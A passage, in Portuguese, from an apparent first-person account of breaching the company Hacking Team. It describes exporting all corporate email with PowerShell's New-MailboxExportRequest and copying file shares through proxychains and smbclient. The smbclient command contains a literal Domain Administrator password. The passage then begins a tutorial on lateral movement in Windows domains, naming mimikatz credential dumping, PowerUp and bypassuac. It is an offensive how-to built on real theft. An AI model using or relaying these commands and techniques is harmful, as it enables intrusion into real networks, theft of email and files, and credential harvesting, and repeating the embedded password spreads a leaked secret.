 [1] https://github.com/Neohapsis/creddump7

[2] http://proxychains.sourceforge.net/

[3] https://www.samba.org/

[4] http://ns2.elhacker.net/timofonica/manuales/Manual_de_Metasploit_Unleashed.pdf

[5] https://github.com/gentilkiwi/mimikatz

--[ 11 - Baixando o e-mail ]-------------------------------------------------

Com a senha do Admin de Domínio, tenho acesso ao e-mail, coração da empresa. Como cada passo que dou há uma chance de ser detectado, começo a baixar o e-mail antes de continuar a explorar. O Powershell facilita isso [1]. Curiosamente, encontrei um bug no manuseio de datas do Powershell. Depois de baixar os e-mails, demorei mais algumas semanas para obter acesso ao
código-fonte e tudo mais, então eu voltava de vez em quando para baixar os novos e-mails. O servidor era italiano, com datas no formato day/month/year. Eu usei:
~~~
-ContentFilter {(Received -ge '05/06/2015') -or (Sent -ge '05/06/2015')}
~~~

com New-MailboxExportRequest para baixar os novos emails (neste caso, todos os emails desde 5 de junho). O problema é que diz que a data é inválida se você tentar um dia maior que 12 (imagino porque nos EUA o mês vem primeiro e você não pode ter um mês acima de 12). Parece que os engenheiros da Microsoft apenas testam seu software com sua própria localidade.

[1] http://www.stevieg.org/2010/07/using-the-exchange-2010-sp1-mailbox-export-features-for-mass-exports-to-pst/

--[ 12 - Baixando Arquivos ]----------------------------------------------------

Agora que obtive o Domain Admin, comecei a baixar arquivos compartilhados usando meu proxy e a opção -Tc de smbclient, por exemplo:

~~~
proxychains smbclient '//192.168.1.230/FAE DiskStation'
-U 'HACKINGTEAM/Administrator%uu8dd8ndd12!' -Tc FAE_DiskStation.tar '*'
~~~

Eu baixei as pastas Amministrazione, FAE DiskStation e FileServer no torrent assim.

--[ 13 - Introdução à invasão de domínios do Windows ]------------------------------

Antes de continuar com a história dos "weones culiaos" (Hacking Team), devo dar alguns conhecimentos gerais sobre hacking em redes windows.

----[ 13.1 - Movimento Lateral ]-------------------------------------------------

Farei uma breve revisão das diferentes técnicas de propagação em uma rede Windows. As técnicas de execução remota requerem a senha ou hash de um administrador local no destino. De longe, a maneira mais comum de obter essas credenciais é usando mimikatz [1], especialmente sekurlsa::logonpasswords e sekurlsa::msv, nos computadores onde você já tem acesso de administrador. As técnicas para movimento "no local" também requerem privilégios administrativos (exceto para runas). As ferramentas mais importantes para escalonamento de privilégios são PowerUp [2] e bypassuac [3].

[1] https://adsecurity.org/?page_id=1821

[2] https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerUp
